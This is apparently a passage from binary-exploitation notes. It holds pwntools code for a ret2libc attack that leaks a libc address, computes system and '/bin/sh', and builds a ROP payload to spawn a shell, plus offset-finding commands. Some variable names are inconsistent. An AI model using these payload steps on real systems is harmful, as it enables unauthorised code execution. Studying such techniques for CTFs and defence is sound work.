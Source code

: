 ```python
# remove zero bytes from the rdi gadget address
clean_rdi_gadget = pop_rdi_gadget.replace(b"\x00",b"")

# find the rdi gagdet call from the leaked stack
l = leak.find(clean_rdi_gadget) + 3 

# retrieve the puts adress from the leak and fit it to 8bytes
puts_libc = u64(leak[l:l+6].ljust(8,b"\x00"))
log.success("Puts addr from libc: " + hex(puts_libc))
```

then we can calculate the base address out of it

```python
# Calculate LIBC addresses for system(address_to_"/bin/sh")
libc.address = puts_libc - libc.symbols['puts']
log.info("libc base @ %s" % hex(libc.address))
```

if we have the base address, we are able to find desired functions / calls in the libc library

```python
# Find system call and /bin/sh in the libc file
BINSH = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

# print them out
log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

# prepare for the payload
system_call = p64(SYSTEM)
binsh_got = p64(BINSH)
````

## align the stack on a remote target

sometimes its necessary to provide a extra single "ret" instruction before calling the system() function to align the stack.  Locally, it doesn't matter, but most of the time, the remote target's stack is unaligned and require this extra "ret" to call the system() function.

```python
ret = (rop.find_gadget(['ret']))[0]

payload = padding + pop_rdi_gadget + binsh_got + ret_gadget + system_call + exit

```



# find offset and bad chars

Create Pattern
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500
cyclic 500
```
